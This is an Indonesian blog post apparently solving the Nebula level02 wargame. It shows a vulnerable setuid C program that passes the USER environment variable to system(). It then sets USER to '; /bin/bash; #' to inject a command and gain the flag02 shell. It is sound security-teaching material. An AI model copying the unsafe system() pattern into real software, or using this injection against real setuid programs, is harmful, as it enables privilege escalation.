 +++
author = "kernel-panic"
categories = ["Security", "Nebula"]
date = "2018-01-10T05:30:30+00:00"
description = "Security Wargames"
featured = "x44905647871.jpg"
featuredalt = "Nebula Level02"
featuredpath = "https://beeimg.com/images"
linktitle = ""
title = "Exploit Exercises - Nebula Level02"
type = "post"

+++
Dalam {{< url-link "level02" "https://exploit-exercises.com/nebula/level02/" "target">}} ini menginstruksikan kita untuk meninjau kode C yang rentan dan menemukan vektor serangannya. Program ini membahas kerentanan dari {{< url-link "tingkat sebelumnya" "https://muhammadzakyzulfiqor.xyz/article/nebula-level01/" "target">}} namun ada vektor baru.

Source code untuk referensinya disertakan di bawah ini:

    #include <stdlib.h>
    #include <unistd.h>
    #include <string.h>
    #include <sys/types.h>
    #include <stdio.h>
    
    int main(int argc, char **argv, char **envp)
    {
    char *buffer;
    
    gid_t gid;
    uid_t uid;
    
    gid = getegid();
    uid = geteuid();
    
    setresgid(gid, gid, gid);
    setresuid(uid, uid, uid);
    
    buffer = NULL;
    
    asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
    printf("about to call system(\"%s\")\n", buffer);
    
    system(buffer);
    }

Seperti yang bisa kamu lihat, "echo" dipanggil oleh path absolutnya tetapi getenv("USER")) memanggil variabel lingkungan $USER. Seperti masalah di level01, variabel ini diatur dalam shell saat ini yang dapat dimanipulasi.

Mari kita modifikasi variabel $USER untuk memasukkan input yang berbeda.

    level02@nebula:/home/flag02$ echo ${USER}
    level02
    level02@nebula:/home/flag02$ USER="; /bin/bash; #"
    level02@nebula:/home/flag02$ echo ${USER}
    ; /bin/bash; #

Seperti yang dapat dilihat dalam kode di atas, saya memodifikasi variabel lingkungan USER yang menjadi berisi "; /bin/bash; #".

Titik  koma ditambahkan untuk menghentikan perintah saat ini dan memulai yang baru, yang memungkinkan kita menghentikan panggilan "echo" dan _spawn a shell_. Diakhir, saya menambahkan  sebuah _octothorp (#)_ untuk memberi komentar pada garis "is cool" yang akan menciptakan keluaran yang salah.

Mari kita jalankan flag02 dan amati hasilnya:

    level02@nebula:/home/flag02$ id
    uid=1003(level02) gid=1003(level02) groups=1003(level02)
    level02@nebula:/home/flag02$ ./flag02
    about to call system("/bin/echo ; /bin/bash; # is cool")
    
    flag02@nebula:/home/flag02$ id
    uid=997(flag02) gid=1003(level02) groups=997(flag02),1003(level02)
    flag02@nebula:/home/flag02$ getflag
    You have successfully executed getflag on a target account

Dan yaps, trik ini berhasil. Tingkat ini menunjukkan bahaya penggunaan variabel lingkungan dalam script dan masukan pengguna yang dipercaya.

<div class="videoyoutube"><div class="video-responsive"><iframe allowfullscreen="1" class="embedded-video-large" src="https://www.youtube.com/embed/hfsHjJbE6J8?rel=0"></iframe></div></div>
